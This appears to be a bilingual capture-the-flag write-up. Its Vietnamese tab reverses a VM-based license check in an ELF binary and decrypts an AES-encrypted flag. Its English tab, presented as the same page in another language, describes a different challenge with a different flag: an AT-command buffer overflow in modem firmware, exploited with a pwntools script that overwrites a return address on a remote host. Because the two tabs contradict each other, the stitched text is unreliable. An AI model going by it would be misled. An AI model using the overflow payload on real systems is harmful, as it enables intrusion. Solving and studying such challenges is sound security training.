


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn" role="tab" type="button" data-lang="en" aria-selected="false">EN</button>
  <button class="lang-btn active" role="tab" type="button" data-lang="vn" aria-selected="true">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `H7CTF{476f0831f4c4eec5b790}`


Bài này thuộc category **Reverse Engineering** với file đính kèm `warden.zip` (dung lượng 2,921 bytes). 
Bên trong là một tệp thực thi ELF 64-bit PIE đã strip, liên kết động với OpenSSL 3.

Chương trình gồm 3 tầng xử lý:
1. `main` kiểm tra license key có độ dài đúng 16 byte.
2. Bộ thông dịch Stack VM chạy bytecode tại `0x20a0..0x2160` để kiểm tra tính hợp lệ của license key.
3. Nếu hợp lệ, lấy `MD5(key)` làm khóa giải mã AES-128-CBC (IV = 0) cho khối ciphertext 32 bytes tại `0x2080` để in ra flag.

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Dịch ngược máy ảo Bytecode

Dump 193 byte bytecode tại `0x20a0`:
Bytecode gồm **16 block, mỗi block đúng 12 bytes**, kết thúc bằng opcode 0:

```text
01 <idx>   PUSH_INPUT idx
02 <a_i>   PUSH_CONST a_i
03         XOR
02 <b_i>   PUSH_CONST b_i
04         ADD (mod 256)
05 <r_i>   ROL8 r_i
06 <c_i>   CHECK c_i
```

Mỗi block là một phương trình độc lập trên từng byte `key[i]`:
$$\operatorname{ROL8}\Big(\big((\text{key}[i] \oplus a_i) + b_i\big) \pmod{256}, \, r_i\Big) = c_i$$

---

## Bước 2: Đảo ngược 16 phương trình tìm Key

Vì tất cả các phép toán (`ROL8`, `ADD`, `XOR`) đều khả nghịch:

```python
def ror8(v, n): n &= 7; return ((v >> n) | (v << (8 - n))) & 0xFF

key = bytearray(16)
for i in range(16):
    blk = vm[i*12 : i*12+12]
    idx, a, b, r, c = blk[1], blk[3], blk[6], blk[9], blk[11]
    key[idx] = ror8((c - b) & 0xFF, r) ^ a

print("License key:", key.decode())
```

Output:
```text
License key: H7X-9F2A-COREKEY
```

---

## Bước 3: Giải mã AES-128-CBC thu Flag

Tính `MD5("H7X-9F2A-COREKEY")`, dùng làm khóa AES-128-CBC với IV = 16 bytes 0 để giải mã 32 bytes ciphertext tại offset `0x2080`:

⇒ **Flag:** `H7CTF{476f0831f4c4eec5b790}`

</div>

<div class="lang-en" markdown="1">

> **Flag:** `h7ctf{m0d3m_0p3r4nd1_4t_c0mm4nd_1nj3ct10n}`

This challenge is a **Reverse / Firmware** challenge from H7CTF'26 based on an embedded cellular modem controller firmware.

The vulnerability is an AT command parser buffer overflow and injection flaw leading to command execution.

---

## Solve Flow



---

## Step 1: AT Command Buffer Overflow

The routine handling `AT+CSMSIGN=` copies arbitrary string parameters into a stack buffer without length checks:

```python
from pwn import *

p = remote("target.h7ctf.org", 4001)
payload = b"AT+CSMSIGN=" + b"A"*132 + p32(0x08004120) + b"\r\n"
p.send(payload)
p.interactive()
```

⇒ **Flag:** `h7ctf{m0d3m_0p3r4nd1_4t_c0mm4nd_1nj3ct10n}`

</div>
